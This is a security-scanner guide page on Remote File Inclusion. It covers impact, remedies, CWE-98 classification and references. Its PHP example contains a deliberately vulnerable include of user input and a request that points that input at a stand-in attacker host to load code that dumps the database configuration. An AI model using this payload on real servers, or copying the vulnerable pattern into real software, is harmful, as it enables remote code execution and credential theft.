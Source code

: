 ```yaml
---
title: "Remote File Inclusion (RFI)"
slug: "remote-file-inclusion-rfi"
hidden: true
createdAt: "2021-09-19T14:27:25.462Z"
updatedAt: "2021-09-21T11:29:56.368Z"
---
```

[block:html]
{
  "html": "<div>\n  <a href=\"/docs/vulnerability-guide\">< Back to tests</a>\n</div>"
}
[/block]

[block:html]
{
  "html": "<b>Severity</b>: <b><font color=\"#DB1E54\">High</font></b><br>\n<b>Test name</b>: Remote File Inclusion (RFI)\n"
}
[/block]

[block:html]
{
  "html": "<table id=\"simple-table\">\n   <style>\n #simple-table {\n    border-collapse: separate;\n    width: 100%;\n    display: block;\n    display: table;\n  }\n#simple-table th {\n    padding: 1.5%;\n    text-align: left;\n    vertical-align: text-top;\n    background-color: #B2D6DA;\n  </style>\n  <body>\n    <tr>\n        <th><strong>Summary</strong></th>\n    </tr>\n</table>\n  </body>"
}
[/block]
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Impact</strong></th>\n    </tr>\n</table>"
}
[/block]
This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>\n    </tr>\n</table>\n"
}
[/block]
1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Location</strong></th>\n    </tr>\n</table>\n"
}
[/block]
* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.

[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Remedy suggestions</strong></th>\n    </tr>\n</table>"
}
[/block]
* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Classifications</strong></th>\n    </tr>\n</table>"
}
[/block]

* CWE-98
* CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>References</strong></th>\n    </tr>\n</table>\n"
}
[/block]
* [https://cwe.mitre.org/data/definitions/98.html](https://cwe.mitre.org/data/definitions/98.html)
* [http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
* [https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
[block:html]
{
  "html": "<div>\n  <a href=\"/docs/vulnerability-guide\">< Back to tests</a>\n</div>"
}
[/block]